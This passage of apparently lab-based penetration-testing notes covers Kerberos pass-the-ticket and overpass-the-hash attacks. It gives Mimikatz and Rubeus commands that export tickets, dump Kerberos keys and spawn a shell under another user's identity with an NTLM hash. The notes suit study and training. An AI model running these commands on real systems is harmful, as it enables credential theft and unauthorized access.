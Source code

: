     privilege::debug

    sekurlsa::tickets /export
    # exports .kirbi files

    exit

    dir *.kirbi
    # these are the required tickets

    # tickets ending with $ are for computer account

    # user tickets have format [username]@[service]-[domain]
    # if service is krbtgt, it is for TGT
    ```

    ```cmd
    # we can also use Rubeus
    Rubeus.exe dump /nowrap
    # dumps tickets in base64
    ```
  
  * Pass the Key or OverPass the Hash:

    * this method converts a hash/key for a domain-joined user into a TGT

    ```cmd
    mimikatz.exe

    privilege::debug

    sekurlsa::ekeys
    # this module will enumerate all key types for Kerberos and dump the keys

    # if we have access to key types like AES256_HMAC or RC4_HMAC, we can perform overpass the hash
    # using Mimikatz, this requires admin privileges
    sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
    # this creates cmd.exe with target user context
